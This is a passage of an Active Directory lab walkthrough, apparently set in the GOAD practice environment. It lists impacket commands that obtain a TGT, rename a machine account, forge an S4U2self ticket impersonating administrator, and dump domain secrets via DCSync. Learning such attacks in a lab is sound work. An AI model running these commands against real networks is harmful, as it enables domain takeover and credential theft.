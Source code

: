 - Obtain a TGT
```
impacket-getTGT -dc-ip 'winterfell.north.sevenkingdoms.local' 'north.sevenkingdoms.local'/'winterfell':'ComputerPassword'
```
![screenshot](pics/get_TGT.png)

- Reset the computer name back to the original name
```
renameMachine.py -current-name 'winterfell' -new-name 'samaccount$' north.sevenkingdoms.local/jon.snow:iknownothing
```
![screenshot](pics/rename_remove.png)

- Obtain a service ticket with S4U2self by presenting the previous TGT
```
export KRB5CCNAME=/home/kali/Desktop/htb/GOAD/tools/winterfell.ccache
impacket-getST -self -impersonate 'administrator' -altservice 'CIFS/winterfell.north.sevenkingdoms.local' -k -no-pass -dc-ip 'winterfell.north.sevenkingdoms.local' 'north.sevenkingdoms.local'/'winterfell' -debug
```
![screenshot](pics/getST.png)


- DCSync by presenting the service ticket
```
export KRB5CCNAME=/home/kali/Desktop/htb/GOAD/tools/administrator@CIFS_winterfell.north.sevenkingdoms.local@NORTH.SEVENKINGDOMS.LOCAL.ccache
impacket-secretsdump -k -no-pass -dc-ip 'winterfell.north.sevenkingdoms.local' @'winterfell.north.sevenkingdoms.local' 
```
![screenshot](pics/secretdump.png)
